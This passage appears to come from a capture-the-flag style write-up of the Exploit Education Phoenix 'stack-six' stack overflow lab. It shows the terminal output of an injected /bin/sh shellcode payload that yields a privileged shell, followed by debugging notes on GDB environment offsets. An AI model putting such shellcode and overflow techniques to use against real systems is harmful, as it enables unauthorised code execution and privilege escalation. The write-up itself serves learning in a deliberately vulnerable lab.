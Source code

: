 ### Result

```shell
user@phoenix-amd64:~$ export ExploitEducation=$(python stack-six.py)
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you H1�H�//bin/shH�SH��PWH��;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
$ id
uid=1000(user) gid=1000(user) euid=406(phoenix-amd64-stack-six) egid=406(phoenix-amd64-stack-six) groups=406(phoenix-amd64-stack-six),27(sudo),1000(user)
$ whoami
phoenix-amd64-stack-six
$ exit
```

There you go! 🎉 You've officially `pwned` the `binary` succesfully gained code execution 🪲

![buffer-overflow-pride](/assets/media/htb-sherlock.webp)

### Trial & Errors

I'm including this trial and error section to learn more about debugging and failures I came across while solving this problem,

1. #### Why does address differs in `GDB` vs while executing from shell?

   The answer boils down to the environment variables that are automatically being set by `gdb` such as `LINES` & `COLUMNS`. So, when the environment variables are added to the program the stack gets pushed down and thus address varies.

   - #### How do I fix this and simulate similar to real world program execution?

      1. Simply use ` set env _ /opt/phoenix/amd64/stack-six`, `unset env LINES` & `unset env COLUMNS` commands to reset environment variables in `gdb`
      2. Use mature tools like `pwntools` - [python library](https://github.com/Gallopsled/pwntools) which helps write exploits and hooks to gdb automatically upon execution.

2. #### My stack-six exploit works in `GDB` but not in terminal ?

   This is due to address padding by environment variables in `gdb`. Check Answer #1 for detailed explanation.

3. #### Where do you get the Shell Code for x86 Arch ?
